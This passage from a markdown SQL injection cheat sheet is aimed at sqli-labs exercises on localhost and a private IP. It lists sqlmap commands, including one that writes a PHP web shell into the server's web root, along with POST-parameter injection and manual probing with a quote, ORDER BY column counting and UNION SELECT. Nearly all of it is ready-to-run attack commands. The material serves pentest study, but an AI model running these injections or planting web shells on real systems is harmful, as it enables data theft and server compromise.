 ```shell
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

#### POST

```shell
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

```shell
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```

You can also use a file like with the post request:

```shell
./sqlmap.py -r post-request.txt -p uname
```

### Bare Hands

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:

```shell
http://192.168.1.104/Less-1/?id=5'
```

#### Fuzzing

Sorting columns to find maximum column:

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

> Until it stop returning errors.

---

#### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`
